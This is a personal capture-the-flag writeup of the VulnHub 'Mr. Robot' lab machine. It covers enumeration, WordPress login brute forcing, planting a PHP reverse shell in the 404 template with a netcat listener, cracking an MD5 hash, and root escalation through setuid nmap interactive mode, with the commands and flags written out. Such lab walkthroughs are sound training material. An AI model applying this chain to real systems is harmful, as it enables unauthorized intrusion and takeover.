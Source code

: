 # My writeup for MR. ROBOT machine
Machine link: https://www.vulnhub.com/entry/mr-robot-1,151/

Let's get started with nmap scan. I found three ports open for ssh, http, https

![nmap](https://github.com/moataz-bellah/writeups/assets/47069499/12744873-28e5-4421-a54b-483987e7d9db)
# Enumerate the website on port 80
When i explore a webiste i always start with /robots.txt to see unwanted paths

![robots](https://github.com/moataz-bellah/writeups/assets/47069499/4fafa00f-d27f-45c4-b6c4-d03ed1b97a38)
Here it is, we found flag 1 and an interesting file "fsosity.dic"
Going to /key-1-of-3.txt and we have flag 1 073403c8a58a1f80d943455fb30724b9
![flag1](https://github.com/moataz-bellah/writeups/assets/47069499/035767d7-e45d-4ac7-a2c8-fa83cc9ed8aa)
Let's check fsosity.dic later and continue enumeration. I did directory busting
```
sudo dirb http://192.168.0.105
```
I have a lot of directories, but i want to focus on three directories
```
http://192.168.0.105/0/
http://192.168.0.105/wp-admin/login
http://192.168.0.105/admin/robot
```
As we see it is a wordpress app. I went to /0/ and found a normal page has nothing to look for, so let's move to /wp-admin/login.
First thing i tried is login with default credentials of wordpress, but it didn't work. However i noticed somthing interesting.
![invalid_username](https://github.com/moataz-bellah/writeups/assets/47069499/d629ec5e-da2c-4333-bbc5-187baaaf0668)
As we see it tells me invalid username which means that page has poor validation. We can take advantage of that and brute force the username
and password. Back to fsocity.dic and explore it.
```
sort fsocity.dic | uniq > wordlist
true
false
wikia
from
the
now
Wikia
extensions
scss
window
```
It has random words, it seems to be a dictionary of usernames or passwords.
I checked to wordcount of the file
```
cat fsocity.dic | wc -l
858160
```
Let's see if that file has duplicates
```
sort fsocity.dic | uniq | wc -l
11451
```
As we see, we have a lot of duplicates. I created a new instance of that file without duplicates 
```
sort fsocity.dic | uniq > wordlist
```
Now we have a wordlist, let' see if it has username or password we can use to login.
Back to the login page, i tried a random username "elliot" and i was lucky.
![login](https://github.com/moataz-bellah/writeups/assets/47069499/e7c29d49-c17d-4369-a790-bddd6c0ced75)
That tells us the username we entered is correct and we just need to brute force the password.
I wrote a python script to brute force the password and also username
- Script to brute force username
![username_script](https://github.com/moataz-bellah/writeups/assets/47069499/3d325f5f-9a0e-4c51-89e0-1fe1b4dd175f)
- Script to brute force password
![password_script2](https://github.com/moataz-bellah/writeups/assets/47069499/877e92cf-5bb8-44f4-b2bd-c659336ed281)
After running the scripts we have the username: "elliot" and password: "ER28-0652". Let's login using these credentials
![dashboard](https://github.com/moataz-bellah/writeups/assets/47069499/cf3bfb4c-a19f-46e6-bd63-86ac486f31cd)
I was exploring the dashboard trying to find anything useful, but i didn't. So i did some research about ideas to get reverse shell in wordpress
and i found that great resourse https://www.hackingarticles.in/wordpress-reverse-shell/.
According to that link i went to appearance, then editor.
![reverse_shell2](https://github.com/moataz-bellah/writeups/assets/47069499/a02ef163-13f2-4bfd-b7a7-3beed04d069f)
1: I looked for a php reverse shell online and i found that https://github.com/pentestmonkey/php-reverse-shell, put it inside the editor.

2: Changed templates to 404 Template  

![reverse_shell](https://github.com/moataz-bellah/writeups/assets/47069499/20358daa-4e05-4470-85dd-b509e78c95ed)

3: Update File  

To get reverse shell we need to visit http://192.168.0.105/wp-content/themes/twentyfifteen/404.php. But before that we need to set netcat to
listen to any incoming connection
```
sudo nc -nvlp 4444
```
Now we execute the shell by visiting /wp-content/themes/twentyfifteen/404.php, and yeah we got a shell
![shell](https://github.com/moataz-bellah/writeups/assets/47069499/f21a4844-6fae-4b19-82ef-4b642bab8eb8)
Let's switch to pty
```
python -c 'import pty; pty.spawn("/bin/sh")'
```
Our current user is daemon. Let's visit /home
```
cd /home
ls
robot
```
See what inside robot
```
ls robot
key-2-of-3.txt  password.raw-md5
```
We have flag 2 but our user doesn't have permission to open, so we need to switch to robot user. Look we have interesting file password.raw-md5
```
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```
We have a username and a hashed password. Let's try to crack that hash. I tried that website and it worked https://crackstation.net/
and that is the cracked hash is "abcdefghijklmnopqrstuvwxyz". Let's switch to robot using that password
```
su robot
Password: abcdefghijklmnopqrstuvwxyz
robot@linux:~$
```
Yeah we are robot, and now we can read flag 2 
```
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```
# Privilege Escalation
After some research i found something called suid, that is something allows users executes files using the privileges of the owner of file.
Using that feature we can look for files that have setuid permission and owned by root user, so we can execute one of these files using privileges of root. 
That command below shows which files have suid permission.
```
robot@linux:/$ find / -perm -4000 -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```
the option -perm -4000 means files has suid permession.According to the shown results, we have many files, but i want to focus on nmap.
I made a quick research on nmap and if we can get privilege escalation and i found that good link https://vk9-sec.com/nmap-privilege-escalation/  
```
robot@linux:/$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap>
```
I tried command !bash and didn't work, but when i tried !sh it worked
```
nmap> !sh
!sh
# whoami
root
#
```
Now we are root
Let't get the flag
```
# cd root
# ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
Machine is done
